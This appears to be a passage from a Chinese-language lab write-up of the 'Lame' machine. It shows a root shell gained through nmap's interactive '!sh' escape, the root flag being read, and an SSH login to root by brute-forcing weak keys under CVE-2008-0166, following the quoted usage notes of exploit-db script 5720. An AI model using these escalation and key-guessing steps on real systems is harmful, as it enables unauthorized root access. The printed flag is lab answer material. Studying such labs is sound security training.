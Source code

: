 ```
 daemon@lame:/tmp$ nmap --interactive
 nmap --interactive
 
 Starting Nmap V. 4.53 ( http://insecure.org )
 Welcome to Interactive Mode -- press h <enter> for help
 nmap> !sh
 !sh
 sh-3.2# whoami
 whoami
 root
 sh-3.2# cat /root/root.txt
 cat /root/root.txt
 29ad7975c49f5ccb49b735a93efbfc4e
```

### 提权2：ssh key

```shell
 daemon@lame:/tmp$ cat /root/.ssh/authorized_keys
 cat /root/.ssh/authorized_keys
 ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable
```

看到msfadmin@metasploitable，最初以为是其他攻击方式留下的，重置主机后发现还是存在，说明是个线索，但是我不知道是什么。参考文章2告诉我是 `CVE-2008-0166` 的线索，没了解过，`$ searchsploit cve-2008-0166` 无过，上网搜。

> OpenSSL 0.9.8c-1 up to versions before 0.9.8g-9 on Debian-based operating systems uses a random number generator that generates predictable numbers, which makes it easier for remote attackers to conduct brute force guessing attacks against cryptographic keys.
>
> ——https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-0166
>
> 翻译：基于 Debian 的操作系统上的 OpenSSL 0.9.8c-1 到 0.9.8g-9 之前的版本使用随机数生成器生成可预测的数字，这使得远程攻击者更容易对加密密钥进行暴力猜测攻击。

expdb搜索：https://www.exploit-db.com/search?cve=2008-0166

看了一个利用脚本，描述步骤如下：

```shell
 # https://www.exploit-db.com/exploits/5720
 # Autor: hitz - WarCat team (warcat.no-ip.org)
 # Collaborator: pretoriano
 #
 # 1. Download https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
 #
 # 2. Extract it to a directory
 #
 # 3. Execute the python script
 #     - something like: python exploit.py /home/hitz/keys 192.168.1.240 root 22 5
 #     - execute: python exploit.py (without parameters) to display the help
 #     - if the key is found, the script shows something like that:
 #         Key Found in file: ba7a6b3be3dac7dcd359w20b4afd5143-1121
 # Execute: ssh -lroot -p22 -i /home/hitz/keys/ba7a6b3be3dac7dcd359w20b4afd5143-1121 192.168.1.240
 ############################################################################
```
